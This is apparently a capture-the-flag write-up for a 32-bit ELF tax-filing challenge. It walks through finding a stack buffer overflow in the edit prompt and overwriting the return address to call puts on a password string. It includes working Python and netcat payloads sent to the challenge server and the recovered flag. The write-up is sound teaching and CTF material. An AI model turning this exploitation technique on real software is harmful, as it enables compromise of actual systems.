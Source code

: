# Pennsylvania - IRS - Exploit - 100
## Problem Description
> Good day fellow Americans. In the interest of making filing your tax returns as easy and painless as possible, we've created this nifty lil' program to better serve you! Simply enter your name and file away! And don't you worry, everyone's file is password protected ;)
> 
> nc irs.pwn.republican 4127

We are provided a stripped ELF 32-bit LSB executable, Intel 80386. 


```
$ checksec ./irs
[!] Couldn't find relocations against PLT to get symbols
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE

```

Running strings on the file reveals the string "not_the_flag". This is the password for viewing Donald Trump’s tax returns in the "View a tax return" function. So the goal is to force the program to output this string somehow. Stepping through the output in gdb reveals that this variable is stored at 0x804c03a.

## Finding an Exploit
I tested for easy buffer overflows or string format vulns before even taking a look at the assembly.


There is indeed a buffer overflow in the edit function, when it asks for y/n confirmation.

```
…
y/n
AAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD
Your changes have been recorded!


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```
So the instruction pointer gets overridden after 25 characters. We have control of esp contents, ebp, and eip.

Taking a look at the functions, we have

- View tax return: 0x804892C
 -   0x804893a : Call 0x80484f8 ( puts )
 -   0x804895c: Call printf
 -   0x8048981 : printf
 -   0x80489a6 : printf
 -   0x80489cb : printf
 -   0x80489db : puts

Let's see if we can redirect the program flow to the view taxes function
```
$ python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x804892C))" | ./irs
…
--------------------------------------------------------------------------------
Segmentation fault (core dumped)
```

Great! It begins printing the first line. It then crashes early since the parameters are incorrect.


Although, using this entire function isn't even necessary. Since we know the memory address of the flag, we can just call puts() on its location and pass the memory address as the parameter.


- call puts: 0x804893a
- puts: 0x80484f8
- flag: 0x0804c03a


So if we can set the top of esp to 0x0804c03a and then jump to 0x804893a, we will get the flag. Of course, the flag location may change, but we’ll get to that later.


```
(gdb) r
…
^C
(gdb) i r
…
esp            0xffffcd78    0xffffcd78
…
(gdb) set *0xffffcd78=0x804c03a
(gdb) jump *0x804893a
Continuing at 0x804893a.
not_the_flag


Program received signal SIGSEGV, Segmentation fault.
0x08048951 in ?? ()
```



So it works in theory; now to try it using the buffer overflow
```
(gdb) !python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x80489db) + struct.pack('i', 0x804c03a))" > attack
(gdb) r < attack
…
Deductible: 1
y/n
Your changes have been recorded!
not_the_flag


Program received signal SIGSEGV, Segmentation fault.
0x080489e4 in ?? ()
```




## Determining the Offset

It works in gdb! However, something seems to be offset when running it on the binary without gdb, as it fails to print this string. The password variable must have been loaded into a different location. But it is still calling the puts function successfully.
We can try using the address of what we found when running strings on the binary instead.
Looking back at the binary, the string is located at 0xac2
```
$ xxd irs | grep not
00000ac0: c700 6e6f 745f c740 0474 6865 5fc7 4008  ..not_.@.the_.@.
```
The .text base address for x86 systems is 0x8048000, so this string’s location when loaded into the program should be 0x8048000 + 0xac2 = 0x8048ac2

```
$ python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x80489db) + struct.pack('i', 0x8048ac2))" | nc irs.pwn.republican 4127
…
y/n
Your changes have been recorded!
flag�@{c4n�_1_g�@
                  3t_a�@_r3f�@und}�
```

flag{c4n_1_g3t_a_r3fund}
